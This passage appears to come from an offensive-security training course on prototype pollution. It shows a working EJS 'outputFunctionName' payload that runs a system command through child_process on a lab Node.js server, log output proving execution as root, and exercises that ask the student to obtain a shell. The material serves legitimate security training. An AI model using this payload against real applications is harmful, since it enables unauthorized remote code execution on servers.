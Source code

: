 > Listing 65 - Code Execution via CLI

Now that we've confirmed our approach works via the interactive CLI, let's attempt to exploit this in the target application.

Make sure that the TEMPLATING_ENGINE is set to 'ejs' when starting docker-compose. This will ensure we are using the ejs templating engine.

This time, we'll use a payload that will execute a system command and output the response to the console.

```
"__proto__":
{
    "outputFunctionName":   "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"
}
```

> Listing 66 - EJS Payload

We'll set the payload in the proper request location.

![Figure 21: Code Execution via outputFunctionName - Request](https://static.offsec.com/offsec-courses/WEB-300/images/prototype_pollution/9f2ccbc231abfbea2b392e4a1cee64bc-prototype_pollution_rce_outputFName_req.png)

Figure 21: Code Execution via outputFunctionName - Request

Once the token is returned, we'll use it to pollute the prototype.

![Figure 22: Polluting the Prototype with RDP request](https://static.offsec.com/offsec-courses/WEB-300/images/prototype_pollution/62851156ffca53288ef16c6b05a661a7-prototype_pollution_rdp_req_ejs.png)

Figure 22: Polluting the Prototype with RDP request

Now, let's visit any page on the chips server and review the output of the log.

```
chips_1     | root
chips_1     | 
chips_1     | root
chips_1     | 
chips_1     | root
chips_1     | 
chips_1     | GET / 200 32.799 ms - 4962
```

> Listing 67 - Docker Compose Log Output

Excellent! Our _console.log_ payload was executed three times, proving that we can execute code against the server.

#### Exercises

1. Follow along with this section but connect to the remote debugger and observe the prototype pollution exploit.
    
2. Obtain a shell.
    

#### Extra Mile
